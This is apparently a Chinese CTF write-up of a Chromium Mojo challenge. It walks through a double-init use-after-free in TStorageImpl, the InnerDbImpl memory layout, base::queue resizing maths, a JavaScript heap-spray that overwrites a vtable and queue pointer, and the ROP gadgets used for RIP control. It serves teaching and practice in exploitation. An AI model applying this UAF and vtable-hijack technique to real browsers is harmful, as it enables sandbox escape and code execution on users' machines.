



### double-init 分析

test代码：

```
#include<iostream>
#include<memory>

class A{
public:
    A()
    {
        printf("A构造\n");
    }
    ~A()
    {
#         printf("A析构\n");
    }
    
};

class B{
public:
    std::unique_ptr<A> a_;
    void init()
    {
        a_ = std::make_unique<A>();
    }
};

int main()
{
    B b;
    b.init();
    b.init();
    getchar();
    return 0;
}
```

运行结果：

```
A构造
A构造
A析构
```

我们从源代码的角度来分别看一下这两次init：

```
 
unique_ptr& operator=(unique_ptr&& __u) 
_NOEXCEPT 
{ 
reset(__u.release());
__ptr_.second() = _VSTD::forward<deleter_type>(__u.get_deleter()); return *this;
}
....


pointer release() 
_NOEXCEPT 
{
pointer __t = __ptr_.first(); 
__ptr_.first() = pointer(); 
return __t;
}
...


void reset(pointer __p = pointer()) 
_NOEXCEPT 
{
pointer __tmp = __ptr_.first(); 
__ptr_.first() = __p;
if (__tmp)
    __ptr_.second()(__tmp); 
}
...


...
~unique_ptr() { reset(); }
```
下面是调试记录：

第一次init



第二次init


文字描述（建议结合图片食用）：
第一次：

- 在移动赋值operator=中，由std::make_unique\<A\>构造出的\_\_u被release,release的过程可以参考图一，release会返回原始指针并将this保存的__ptr置为NULL。

- 接着调用reset函数，将a自身保存的原始指针通过__ptr_.frist获取并放入__tmp临时保存（由于是第一次std::make_unique\<A\>();），所以此时__tmp为NULL。之后将a保存的原始指针替换为release的返回值。最后会根据__tmp是否为空来判断是否需要析构掉保存的对象。

第二次：

- 大致流程和第一次无异，我们着重观察reset函数。

- 可以看到在reset中，__tmp中保存了我们第一次init时获取的指针，之后会将自身保存的原始指针替换为新的指针，最后由于__tmp不为空，析构掉了他保存的对象。

### UAF

上面已经提到了，漏洞点就在下面的代码中
```
+void TStorageImpl::Init(InitCallback callback) {
+    inner_db_ = std::make_unique<InnerDbImpl>();
+
+    std::move(callback).Run();
+}
```
具体的利用我们放在InnerDbImpl的分析中。

##### InnerDbImpl结构

在content::TStorageImpl::Init处下断点，在调用new之前，rdi会保存结构体的大小，可以根据它得到结构体大小 - 0x678。
```
   0x56307eeb60b8    push   rbx
   0x56307eeb60b9    push   rax
   0x56307eeb60ba    mov    r14, rsi
   0x56307eeb60bd    mov    r15, rdi
   0x56307eeb60c0    mov    edi, 0x678
   0x56307eeb60c5    call   0x563080de99f0 <0x563080de99f0> => operator new
```
InnerDbImpl结构：
```
+namespace content {
+    class InnerDb {
+    public:
+        virtual ~InnerDb() {}
+        virtual uint64_t GetTotalSize();
+    };
+}

+namespace content {
+    class InnerDbImpl : InnerDb {
+    public:
+        InnerDbImpl();
+        ~InnerDbImpl() override;
+
+        void Push(uint64_t value);
+        uint64_t Pop();
+        void Set(uint64_t index, uint64_t value);
+        uint64_t Get(uint64_t index);
+        void SetInt(int64_t value);
+        int GetInt();
+        void SetDouble(double value);
+        double GetDouble();
+        uint64_t GetTotalSize() override;
+
+        std::array<uint64_t, 200> array_;
+        base::queue<uint64_t> queue_;
+        int64_t int_value_ = 0;
+        double double_value_ = 0.0;
+    };
+}
```

我们查看一下它在内存中布局，为了便于观察，我们先对他做一些初始化：
```
for(var i = 0; i < 200; i++){
	await ti_ptr.set(i, 0x1000+i);
}
await ti_ptr.push(0x2001);
await ti_ptr.push(0x2002);
await ti_ptr.push(0x2003);
await ti_ptr.push(0x2004);
await ti_ptr.push(0x2005);
await ti_ptr.pop();
await ti_ptr.setDouble(1.1);
await ti_ptr.setInt(0x1234);
print(hex((await ti_ptr.getInt()).value));
```
内存布局如下：

```
pwndbg> x/70gx 0x261f30d33e00
0x261f30d33e00:	0x000055595ef48a60 => vtable	0x0000000000001000 => array_ 起始
0x261f30d33e10:	0x0000000000001001	0x0000000000001002
0x261f30d33e20:	0x0000000000001003	0x0000000000001004
0x261f30d33e30:	0x0000000000001005	0x0000000000001006
0x261f30d33e40:	0x0000000000001007	0x0000000000001008
0x261f30d33e50:	0x0000000000001009	0x000000000000100a
0x261f30d33e60:	0x000000000000100b	0x000000000000100c
0x261f30d33e70:	0x000000000000100d	0x000000000000100e
0x261f30d33e80:	0x000000000000100f	0x0000000000001010
0x261f30d33e90:	0x0000000000001011	0x0000000000001012 

    ....

0x261f30d34430:	0x00000000000010c5	0x00000000000010c6
0x261f30d34440:	0x00000000000010c7 => array_ 末尾	0x0000261f30dac1e0 => queue_指针
0x261f30d34450:	0x0000000000000006 => queue_大小	0x0000000000000001 => queue_ 起始indx
0x261f30d34460:	0x0000000000000005 => queue_ 末尾indx	0x0000000000001234 => int_value_
0x261f30d34470:	0x3ff199999999999a => double_value_	0x0000000000000000


pwndbg> x/10gx 0x0000261f30dac1e0
0x261f30dac1e0:	0x0000000000002001	0x0000000000002002
0x261f30dac1f0:	0x0000000000002003	0x0000000000002004
0x261f30dac200:	0x0000000000002005
```


### base::queue

可以拿sakura师傅搞出来的queue代码来调试：
[debug](./main.cpp)

##### push

```
void push_back(T &&value) { emplace_back(std::move(value)); }

    template<class... Args>
    reference emplace_back(Args &&... args) {
        ExpandCapacityIfNecessary(1); //扩张缓冲区
        new(&buffer_[end_]) T(std::forward<Args>(args)...);
        if (end_ == buffer_.capacity() - 1)
            end_ = 0;
        else
            end_++;
        IncrementGeneration();
        return back();
    }
    

void ExpandCapacityIfNecessary(size_t additional_elts) {
    size_t min_new_capacity = size() + additional_elts;
    if (capacity() >= min_new_capacity)
        return;  // Already enough room.

    min_new_capacity = std::max(min_new_capacity, kCircularBufferInitialCapacity);

    // std::vector always grows by at least 50%. WTF::Deque grows by at least
    // 25%. We expect queue workloads to generally stay at a similar size and
    // grow less than a vector might, so use 25%.
    
    size_t new_capacity = std::max(min_new_capacity, capacity() + capacity() / 4);
    
    SetCapacityTo(new_capacity);
}
    
constexpr size_t kCircularBufferInitialCapacity = 3;
    
size_type size() const {
    if (begin_ <= end_)
        return end_ - begin_;
    return buffer_.capacity() - begin_ + end_;
}
    
size_type capacity() const {
    // One item is wasted to indicate end().
    return buffer_.capacity() == 0 ? 0 : buffer_.capacity() - 1;
}
    

void SetCapacityTo(size_t new_capacity) {
    if (new_capacity == 206) {
        exit(0);
    }
    if (new_capacity > 500) {
        exit(-1);
    }
    // Use the capacity + 1 as the internal buffer size to differentiate
    // empty and full (see definition of buffer_ below).
    VectorBuffer new_buffer(new_capacity + 1);
    MoveBuffer(buffer_, begin_, end_, &new_buffer, &begin_, &end_);
    buffer_ = std::move(new_buffer);
}
    
```

我们重点关注一下扩张缓冲区函数，可以看到他的参数为1，首先通过一个if判断来确定当前是否需要扩张。若需要扩张则通过std::max(min_new_capacity, kCircularBufferInitialCapacity);来获取min_new_capacity，之后有个25%增长，大致意思就是如果增长25%足够就采用25%，若果不够就需要多少增长到多少。

这里有个需要注意的地方buffer_.capacity() = capacity() (实际容量) + 1，原因可以看下面的注释，意思就是如果不+1，begin和end相等时会很难处理。

```
    // Danger, the buffer_.capacity() is the "internal capacity" which is
    // capacity() + 1 since there is an extra item to indicate the end. Otherwise
    // being compintely empty and compintely full are indistinguishable (begin ==
    // end). We could add a separate flag to avoid it, but that adds significant
    // extra complexity since every computation will have to check for it. Always
    // keeping one extra unused element in the buffer makes iterator computations
    // much simpler.
    //
    // Container internal code will want to use buffer_.capacity() for offset
    // computations rather than capacity().
```




##### pop

```
void pop_front() {
    buffer_.DestructRange(&buffer_[begin_], &buffer_[begin_ + 1]);
    begin_++;
    if (begin_ == buffer_.capacity())
        begin_ = 0;
    ShrinkCapacityIfNecessary(); //缩小缓冲区

    // Technically popping will not invalidate any iterators since the
    // underlying buffer will be stable. But in the future we may want to add a
    // feature that resizes the buffer smaller if there is too much wasted
    // space. This ensures we can make such a change safely.
    IncrementGeneration();
}
    
    
void ShrinkCapacityIfNecessary() {
    // Don't auto-shrink below this size.
    if (capacity() <= kCircularBufferInitialCapacity)
        return;

    // Shrink when 100% of the size() is wasted.
    size_t sz = size();
    size_t empty_spaces = capacity() - sz;
    if (empty_spaces < sz)
        return;

    // Leave 1/4 the size as free capacity, not going below the initial
    // capacity.
    size_t new_capacity = std::max(kCircularBufferInitialCapacity, sz + sz / 4);
    if (new_capacity < capacity()) {
        // Count extra item to convert to internal capacity.
        SetCapacityTo(new_capacity);
    
    }
}

void SetCapacityTo(size_t new_capacity) {
    if (new_capacity == 206) {
        exit(0);
    }
    if (new_capacity > 500) {
        exit(-1);
    }
    // Use the capacity + 1 as the internal buffer size to differentiate
    // empty and full (see definition of buffer_ below).
    VectorBuffer new_buffer(new_capacity + 1);
    MoveBuffer(buffer_, begin_, end_, &new_buffer, &begin_, &end_);
    buffer_ = std::move(new_buffer);
}
    

```
我们重点关注缩小缓冲区函数，首先容量不能少于3，当已使用的空间大于空闲空间时是不会进行缩小的，缩小操作将会取 3 和 (已使用大小 * 4/5) 中的较大值作为新的缓冲区大小。

我们接下来看一下我们需要如何扩张才可以将释放的空间申请回来：
```
void SetCapacityTo(size_t new_capacity) { //设置容量的函数，new_capacity为要设置的新的容量
  // Use the capacity + 1 as the internal buffer size to differentiate
  // empty and full (see definition of buffer_ below).
  VectorBuffer new_buffer(new_capacity + 1);
  MoveBuffer(buffer_, begin_, end_, &new_buffer, &begin_, &end_);
  buffer_ = std::move(new_buffer);
}

VectorBuffer(size_t count)
    : buffer_(reinterpret_cast<T*>(
          malloc(CheckMul(sizeof(T), count).ValueOrDie()))),
      capacity_(count) {
}
``` 
可以看到这里的buffer大小是由sizeof(T)*count来算出的，我们的T为uint64_t，所以我们需要new_capacity = 0x678/8 -1 = 0xce 。

我们可以简单写了一个python脚本来计算一下可行的方案：

这里用了随机的方法来决定是否pop或push，现场写算法还是太搞心态了（ tcl 。

```
import random

def push(capacity):
	return ((capacity-1)+(capacity-1)/4)+1

def pop(capacity):
	c = capacity-1
	c = c/2
	return (c+c/4)+1

while 1:
	step = 0
	capacity = 0x5
	result = []
	while capacity < 0x100 and step < 100:
		step += 1
		if random.random() > 0.1:
			capacity = push(capacity)
		else:
			capacity = pop(capacity)
		result.append(capacity)
		if capacity == 0xcf:
			print result
			print step
			exit(0)
```

这里直接使用下面的方案：push->79  pop->49  push->76  pop->47  push->89  pop->56  push->207

```
print("[+] Prepaired for heap spray");

	for(var idx = 0; idx < list_size; idx++){
		for(var i = 0; i < 200; i++){
			C[idx].set(i, 0x1000+i);
		}
		for(var i = 0; i < 79-1; i++){
			await C[idx].push(0x10000+i);
		} // capacity = 79
		for(var i = 0; i < 39; i++){
			await C[idx].pop();
		} // capacity = 49
		for(var i = 0; i < 76-40; i++){
			await C[idx].push(0x20000+i);
		} // capacity = 76
		for(var i = 0; i < 38; i++){
			await C[idx].pop();
		} // capacity = 47
		for(var i = 0; i < 51; i++){
			if(i != 8){ // 这个偏移可以通过填充的值找到
				await C[idx].push(0x30000+i);
			}
			else{
				await C[idx].push(bss); // vtable entry
			}
		} // capacity = 89
		for(var i = 0; i < 45; i++){
			await C[idx].pop();
		} // capacity = 56
		for(var i = 0; i < 163-5; i++){
			await C[idx].push(0x40000+i);
		}
		await C[idx].push(bss);        // buffer_
		await C[idx].push(0xcf);       // capacity_
		await C[idx].push(0);          // index_
		await C[idx].push(1);       // end_
		await C[idx].push(0x74747474); // int_value_
	}

	print("[+] Heap spray finished");

	for(var idx = 0; idx < list_size; idx++){
		var temp = (await A[idx].getInt()).value;
		if(temp == 0x74747474){

			print_value("[+] Find target: ", idx);
			var target = A[idx];
			await target.push(0x7171717171717171);
			await target.push(0x7272727272727272);

			print(hex((await A[idx].getInt(i)).value));
			target.getTotalSize();
		}
	}
```
可以触发crash，此时vtable已被我们修改。

##### 注意事项

首先来小结一下目前为止的攻击思路：

- 首先我们可以通过double-init漏洞来实现UAF

- 我们创建三个数组，在B中push大量的TStorage，获取对应的TInstance psuh到A中。c数组同样push大量的TInstance，但该操作要在double-init之前进行，目的是为了利用c中TInstance的push、pop来申请之后uaf的内存。
- 对B进行第二次init触发UAF
- 通过指定的push、pop顺序来控制queue的内存。
- 当我们通过queue申请到uaf内存后，我们就可以通过修改vtable来劫持rip，修改queue指针来任意读写。
- 为了实现上述目标，我们需要将vtable和queue修改为bss段。
- 需要注意的是，每次queue扩张和缩小缓冲区都会重新malloc空间，所以我们需要通过偏移来找到vtable的位置，下面以实际内存为例：

我们在content::InnerDbImpl::GetInt()处下断点，rdi为InnerDbImpl结构

pwndbg> x/20gx $rdi
0x33877476f700:	0x0000000000030008	0x0000000000030009
0x33877476f710:	0x000000000003000a	0x000000000003000b
0x33877476f720:	0x000000000003000c	0x000000000003000d
0x33877476f730:	0x000000000003000e	0x000000000003000f
0x33877476f740:	0x0000000000030010   0x0000000000030011

queue的内容在倒数5字节

content::TInstanceImpl::GetTotalSize处下断点，可以看到call虚表+0x10处的函数，所以我们将xchg放到+0x10处。
```
   0x56428ae6ad44    push   rbx
   0x56428ae6ad45    push   rax
   0x56428ae6ad46    mov    rbx, rsi
   0x56428ae6ad49    mov    rdi, qword ptr [rdi + 8]
   0x56428ae6ad4d    mov    rax, qword ptr [rdi]
   0x56428ae6ad50    call   qword ptr [rax + 0x10] => vtable + 0x10
```
布置shellcode：



```
   0x55e422130945 <from16to8+21>:	mov    BYTE PTR [rdi],al
   0x55e422130947 <from16to8+23>:	pop    rbp
   0x55e422130948 <from16to8+24>:	ret
   
   
   0x55e41fc355fc <std::__1::__begin_marked_subexpression<char>::~__begin_marked_subexpression()+12>:	pop    rax
   0x55e41fc355fd <std::__1::__begin_marked_subexpression<char>::~__begin_marked_subexpression()+13>:	ret
   
   
   
   0x564cf122f8e4 <(anonymous namespace)::MakeImageDoodle(search_provider_logos::LogoType, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, GURL const&, int, int, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, int, int, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&)+212>:	xchg   rsp,rax
   0x564cf122f8e6 <(anonymous namespace)::MakeImageDoodle(search_provider_logos::LogoType, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, GURL const&, int, int, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, int, int, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&)+214>:	ret
   
```


### exp

[exp](./exp.html)


